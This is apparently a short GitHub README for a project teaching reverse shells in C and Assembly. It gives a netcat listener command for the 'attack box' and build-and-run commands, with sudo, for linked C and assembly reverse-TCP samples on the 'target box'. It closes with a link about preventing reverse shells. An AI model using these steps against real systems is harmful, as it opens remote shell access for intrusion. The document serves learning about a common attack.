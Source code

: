 <h1>BISMIL</h1>
<h2>Pure way to start hacking programming in C and Assembly languages</h2>
<h3>ON ATTACK BOX RUN:</h3>
<pre>nc -lvp 444</pre>
<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/1.jpeg">
<h3>ON TARGET BOX:</h3>
<ul>
  <li>We need an signal, like exe file or just a tcp request</li>
  <li><a href="https://github.com/dewebdes/bismil/blob/master/rsv.c">PURE C Sample</a><p>
    gcc rsv.c -o rsv
    
sudo ./rsv
    </p></li>
    <li><a href="https://github.com/dewebdes/bismil/blob/master/reverse_tcp.asm">ASM Sample</a><p>
    nasm -f elf32 reverse_tcp.asm && ld -m elf_i386 reverse_tcp.o -o reverse_tcp
    </p></li>
</ul>

<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/2.jpeg">
<hr>
<h2><a href="https://www.linkedin.com/posts/kaveh-eyni-08060b59_protection-reverseengineering-snort-activity-6594048815320436736-WtVH">How to Prevent Reverse Shell?</a></h2>
